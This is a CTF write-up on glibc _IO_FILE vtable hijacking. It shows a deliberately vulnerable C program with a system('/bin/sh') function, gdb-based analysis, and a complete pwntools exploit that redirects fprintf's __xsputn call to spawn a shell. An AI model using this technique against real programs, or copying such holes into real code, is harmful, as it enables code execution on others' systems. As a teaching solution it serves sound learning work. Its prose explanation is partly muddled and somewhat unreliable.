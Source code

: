 ```yaml
---
title: "- IO_File Vtable Pwn"
tags:
  - Pwn
  - CTF 
  - IO_File
---
```


This is a problem based on_IO_file Vtable.


# Introduction

The file stream feature (FILE) in Linux. We can see that some common IO operation functions in Linux need to be processed through the FILE structure. In particular, there is a vtable in the *_IO_FILE_plus* structure, and some functions will fetch the pointers in the vtable for calling.

Therefore, the central idea of the fake vtable hijacking process is to implement the vtable of _IO_FILE_plus by pointing the vtable to the memory we control and placing the function pointer in it.

Therefore, vtable hijacking is divided into two types. One is to directly rewrite the function pointer in the vtable, which can be realized by writing at any address. The other is to overwrite the vtable pointer to the memory we control, and then arrange the function pointer in it.

*_IO_FILE* The structure is as follows:

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```


# Vulnerable Source Code 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char name[8];
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    int idx = 0;
    int sel;

    initialize();

    printf("what is your name: ");
    read(0, name, 8);
    while(1) {
        printf("1. print\n");
        printf("2. error\n");
        printf("3. read\n");
        printf("4. chance\n");
        printf("> ");

        scanf("%d", &sel);
        switch(sel) {
            case 1:
                printf("GOOD\n");
                break;
            case 2:
                fprintf(stderr, "ERROR\n");
                break;
            case 3:
                fgetc(stdin);
                break;
            case 4:
                printf("change: ");
                read(0, stderr + 1, 8);
                break;
            default:
                break;
            }
    }
    return 0;
}
```

# Analysis 

The key vulnerability lies in the read(0, stderr + 1, 8) call in case 4 of the switch statement. This allows the attacker to overwrite 8 bytes of memory starting at stderr + 1, which is the address of the _IO_file_jumps vtable.

![](image.png)

from the gdb we notice that The value that is added to stderr by 0xd8 is used as a parameter of the read function 

![alt text](image-1.png)

Okey so *stderr+1* received from read is the address of the *vtable*. (To be exact, it is the address of *_IO_file_jumps*.) Then, the read function will add the _vtable_offset value in its structure to _IO_file_jumps and refer to the necessary function and we can execute the desired function by inserting a fake vtable address through :

```c 
read(0, stderr + 1, 8); 
```


![jumps](image-2.png)

We can change the address of the vtable in the read function. 
In the case of the frpintf function (fwrite), the *_IO_new_file_xsputn* function is called, and the *_vtable_offset* set at that time is 0x38 when the *fprintf()* function is called, it calls the address of __xsputn at offset 0x38 of _IO_file_jumps. 

```python
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'
p = process("./iofile_vtable")
elf = ELF("./iofile_vtable")
libc = ELF("./libc-2.27.so")

get_shell = 0x40094a
fake__xsputn = 0x6010d0-0x38

p.sendlineafter(b"what is your name: ", p64(get_shell))
pause()

p.sendlineafter(b"> ", b"4")
p.sendlineafter(b"change: ", p64(fake__xsputn))
p.sendlineafter(b"> ", b"2")

p.interactive()
```

To exploit this vulnerability, we need to understand the structure of the _IO_FILE object and the _IO_file_jumps vtable.
The _IO_FILE structure contains a _vtable_offset field, which is used to index into the _IO_file_jumps vtable. When functions like *fprintf()* or *fwrite()* are called on the _IO_FILE object, they use this offset to call the corresponding function pointer in the vtable.

By overwriting the _IO_file_jumps vtable with our own values, we can hijack the control flow and execute arbitrary code. Specifically, we can overwrite the __xsputn function pointer (at offset 0x38 in the vtable) with the address of the *get_shell()* function, and overwrite the address of the name variable (minus 0x38) as the new vtable pointer.

